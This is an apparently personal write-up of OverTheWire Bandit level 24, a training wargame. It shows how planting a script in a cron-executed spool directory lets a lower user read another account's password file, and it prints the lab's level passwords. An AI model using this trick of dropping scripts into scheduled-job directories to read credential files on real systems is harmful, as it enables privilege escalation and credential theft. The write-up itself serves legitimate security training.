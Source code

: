 # Bandit Level 24

## 🧩 Objective

> A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

---

## 🧪 Credentials

- **Host**: `bandit23.labs.overthewire.org`
- **Port**: `2220`
- **Password**: `0Zf11ioIjMVN551jX3CmStKLYqjk54Ga`
---

## 🖥️ Steps

1. Open your terminal.
2. Connect to the Bandit server via SSH:

```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
```
3. first we'll head to the `/etc/cron.d/` dir and check the existing script. so what does this script do? we will write a script in the `/var/spool/bandit24/foo` dir then this script will run it and delete it within 1 minute.
```
bandit23@bandit:/var/spool/bandit24/foo$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ ls
clean_tmp         cronjob_bandit23  e2scrub_all  sysstat
cronjob_bandit22  cronjob_bandit24  otw-tmp-dir
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
4. let's write the script it's simple. i typically use `vim` but to make easy to show here i wrote it using like this. it's simplle when executed it copies the pass to the `/tmp/outputtt.txt`. and the `chmod 777` gives all the read, write and execution permissions to the script.
```
bandit23@bandit:/var/spool/bandit24/foo$ echo "cat /etc/bandit_pass/bandit24 > /tmp/outputtt.txt" > scripttt.sh
bandit23@bandit:/var/spool/bandit24/foo$ chmod 777 scripttt.sh
```
5. if we check out the `/tmp/outputtt.txt` we'll see
```bandit23@bandit:/var/spool/bandit24/foo$ cat /tmp/outputtt.txt
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```
---
[← Level 23](./leve23.md) | [Level 25→](./level25.md)
